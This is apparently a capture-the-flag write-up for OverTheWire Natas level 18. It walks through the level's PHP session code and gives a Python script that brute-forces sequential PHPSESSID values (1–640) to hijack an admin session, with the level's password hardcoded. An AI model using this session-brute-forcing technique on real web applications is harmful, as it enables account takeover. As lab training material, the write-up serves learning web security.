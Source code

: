 ```php
<?php } ?>
```

Starting analyze some functions:

```php
function print_credentials() {
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas19\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas19.";
    }
}
```

This function is used to print password if `_SESSION` is not empty, consists (key, value) = (admin, 1).

`$_SESSION["admin"] = isValidAdminLogin();` This command in the main function always set `$_SESSION["admin"] = 0.` → There's no way that a new user typing username and password, then become admin.

→ `my_session_start()` must return true.

But this function returns true when the `PHPSESSID` is contained in cookie that sent to server through requests. `PHPSESSID` is maybe admin's `session_id`. If we have this ID, we can 'borrow' admin privilege.

A user's `session_id` is random from 1 to 640 → I can brute-force this number easily.

This is a short Python script to solve this task:

```python
import requests

url = 'http://natas18.natas.labs.overthewire.org/'
username = 'natas18'
password = '6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ'

auth = requests.auth.HTTPBasicAuth(username, password)

for i in range(1, 641):
    cookies = {'PHPSESSID': str(i)}
    response = requests.get(url, auth=auth, cookies=cookies)
    if 'You are an admin' in response.text:
        print(i)
        break
```

![image](/assets/images/level-18-2.png)

